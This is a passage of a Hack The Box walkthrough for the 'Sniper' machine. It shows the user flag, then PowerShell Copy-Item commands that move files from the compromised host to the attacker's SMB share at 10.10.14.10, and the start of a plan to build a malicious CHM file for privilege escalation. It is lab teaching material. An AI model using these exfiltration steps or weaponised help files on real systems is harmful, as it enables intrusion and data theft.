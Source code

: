 10. Grab user.txt
    PS C:\Users\Chris\Desktop> type user.txt
      type user.txt
      21f4****************************


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. Looking around in the box we find a file named instructions.chm in C:\Users\Chris\Downloads. Lets download it and view the file.

    PS C:\Users\Chris\Downloads> Copy-Item -Path instructions.chm -Destination //10.10.14.10/pub-share/instructions.chm
    root@p3:/srv/pub-share# mv instructions.chm /opt/htb/machines/sniper/
    root@p3:/opt/htb/machines/sniper# xchm instructions.chm

      >Sniper Android App Documentation
      >Table of Contents
      >Pff... This dumb CEO always makes me do all the shitty work. SMH!
      >I'm never completing this thing. Gonna leave this place next week. Hope someone snipes him.

  Maybe we are looking for an app for privesc?

2. In C:\Docs we find note.txt and "php for dummies-trial.pdf", lets view them.

    PS C:\Docs> type note.txt
      Hi Chris,
      	Your php skillz suck. Contact yamitenshi so that he teaches you how to use it and after that fix the website as there are a
        lot of bugs on it. And I hope that you've prepared the documentation for our new app. Drop it here when you're done with it.
      Regards,
      Sniper CEO.

    PS C:\Docs> Copy-Item -Path "php for dummies-trial.pdf"-Destination //10.10.14.10/pub-share/test.pdf
    root@p3:/srv/pub-share# mv test.pdf /opt/htb/machines/sniper/php-dummies.pdf

    The PDF only contains table of content, and no actual content.

3. CHM-files are deemed as dangerous as they can be injected with malicious code. We can compile our own (malicious) .chm-file
   using only Windows tools (HTML Help). Let's start by creating the three files needed; .htm, .hhc and .hhp

   .htm - this is our payload where we inject the malicious data
   .hhc - contains the Table of Content for the HTML Help file
   .hhp - our project file used to bind all the other files together

